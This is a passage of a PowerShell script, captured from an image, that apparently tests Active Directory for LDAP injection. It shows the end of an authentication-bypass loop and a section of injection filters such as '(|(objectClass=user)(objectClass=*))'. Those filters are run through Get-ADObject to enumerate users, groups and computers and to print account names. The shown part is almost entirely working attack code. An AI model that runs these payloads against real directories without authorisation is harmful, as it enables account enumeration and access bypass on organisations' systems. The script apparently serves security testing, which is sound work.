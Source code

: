 ```powershell
                    Filter = $payload.Filter
                    Results = $results.Count
                    Success = $true
                    Users = $results | Select-Object -ExpandProperty sAMAccountName
                }
                
                $injectionResults.AuthenticationBypass += $result
                
                Write-Host "    Results: $($results.Count) objects found" -ForegroundColor Green
                if ($results.Count -gt 0) {
                    Write-Host "      Users: $($results | Select-Object -ExpandProperty sAMAccountName -join ', ')"
                }
                
            }
            catch {
                $result = @{
                    PayloadName = $payload.Name
                    Filter = $payload.Filter
                    Results = 0
                    Success = $false
                    Error = $_.Exception.Message
                }
                
                $injectionResults.AuthenticationBypass += $result
                Write-Host "    Error: $($_.Exception.Message)" -ForegroundColor Red
            }
            
            Write-Host ""
        }
        
        # Information Disclosure Testing
        Write-Host "Testing Information Disclosure..." -ForegroundColor Yellow
        
        $infoDisclosurePayloads = @(
            @{ Name = "User Enumeration"; Filter = "(|(objectClass=user)(objectClass=*))" },
            @{ Name = "Group Enumeration"; Filter = "(|(objectClass=group)(objectClass=*))" },
            @{ Name = "Computer Enumeration"; Filter = "(|(objectClass=computer)(objectClass=*))" },
            @{ Name = "All Objects"; Filter = "(|(objectClass=*)(objectClass=*))" },
            @{ Name = "Attribute Enumeration"; Filter = "(|(sAMAccountName=*)(objectClass=*))" },
            @{ Name = "Nested Enumeration"; Filter = "(|(|(objectClass=user)(objectClass=group))(objectClass=*))" }
        )
        
        foreach ($payload in $infoDisclosurePayloads) {
            try {
                Write-Host "  Testing: $($payload.Name)" -ForegroundColor Cyan
                Write-Host "    Filter: $($payload.Filter)"
                
                $results = Get-ADObject -LDAPFilter $payload.Filter -Properties sAMAccountName, objectClass -ResultSetSize 10
                
                $result = @{
                    PayloadName = $payload.Name
                    Filter = $payload.Filter
                    Results = $results.Count
                    Success = $true
                    ObjectClasses = ($results | Select-Object -ExpandProperty objectClass | Sort-Object -Unique)
                }
                
                $injectionResults.InformationDisclosure += $result
```